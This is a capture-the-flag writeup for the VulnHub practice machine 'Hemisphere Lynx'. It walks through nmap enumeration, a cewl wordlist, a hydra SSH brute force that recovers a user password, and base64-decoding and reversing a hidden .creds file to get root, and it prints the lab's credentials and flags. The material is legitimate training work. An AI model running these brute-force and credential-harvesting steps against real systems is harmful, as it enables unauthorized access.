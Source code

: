 ```yaml
---
title: Vulnhub - Hemisphere Lynx
description: My writeup on Hemisphere Lynx box.
categories:
 - vulnhub
tags: vulnhub cewl hydra ssh base64
---
```


![](https://i.imgur.com/Dayq2fI.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Hemisphere Lynx**  | 
| Series :      | **Hemisphere**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **1 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [d4t4s3c](https://github.com/d4t4s3c){:target="_blank"}     | 
| Download :    | [Hemisphere Lynx](https://www.vulnhub.com/entry/hemisphere-lynx,577/){:target="_blank"}      | 

## Summary

This was a really easy box, pretty basic stuff perfect to pass your time. We generate a custom wordlist with cewl and we run a brute force attack on ssh this way we get the user flag. Root is simply a base64 decoding. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.101                                                                                                                                                               130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00041s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8F:D2:91 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 26:21:06:43:f3:27:b0:2f:df:eb:37:c0:26:d7:58:2a (RSA)
|   256 cd:a2:e4:63:31:78:79:a1:56:1d:1d:bd:85:ee:6b:fb (ECDSA)
|_  256 dd:bc:7e:1d:a3:ad:ff:aa:1a:3f:d3:68:a4:42:ea:1b (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title:  Lynx 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```
 
Let's start the enumeration with port 80, i don't understand the language of the text but the box desc says "Brute Forze" so we can simply generate a custom wordlist with `cewl` and run a brute force on SSH.

## Shell as johannes

```
$ cewl http://$ip/ | tee wordlist.txt
```

```
$ hydra -L wordlist.txt -P wordlist.txt $ip ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 2601 login tries (l:51/p:51), ~163 tries per task
[DATA] attacking ssh://192.168.1.101:22/
[STATUS] 312.00 tries/min, 312 tries in 00:01h, 2291 to do in 00:08h, 16 active
[22][ssh] host: 192.168.1.101   login: johannes   password: constelaciones
```

```
$ ssh johannes@$ip                                                                                                                                                               255 ↵
johannes@192.168.1.101's password: 

johannes@Lynx:~$ whoami;id
johannes
uid=1000(johannes) gid=1000(johannes) grupos=1000(johannes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Under `/Desktop` we can see a hidden creds file:

```
johannes@Lynx:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 root     root     4096 oct  1 13:39 .
drwxr-xr-x 10 johannes johannes 4096 oct  1 21:46 ..
-rw-r--r--  1 root     root       37 oct  1 13:39 .creds
```

It contains a base64 string, let's decode it:

```
johannes@Lynx:~/Desktop$ cat .creds 
MjBLbDdpUzFLQ2FuaU84RFdNemg6dG9vcg==
johannes@Lynx:~/Desktop$ cat .creds | base64 -d
20Kl7iS1KCaniO8DWMzh:toor
```

Seems like reversed, let's reverse it.

```
johannes@Lynx:~/Desktop$ cat .creds | base64 -d | rev
root:hzMWD8OinaCK1Si7lK02
```

Now we can simply switch to user root:

```
johannes@Lynx:~/Desktop$ su - root
Contraseña: 
root@Lynx:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

## Reading the flag(s)

```
root@Lynx:~# cat /root/root.txt 
4xKWoV6QGHTetItzD7mI
root@Lynx:~# cat /home/johannes/user.txt 
uZ8iARX2aiDV1bNz7Dx4
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
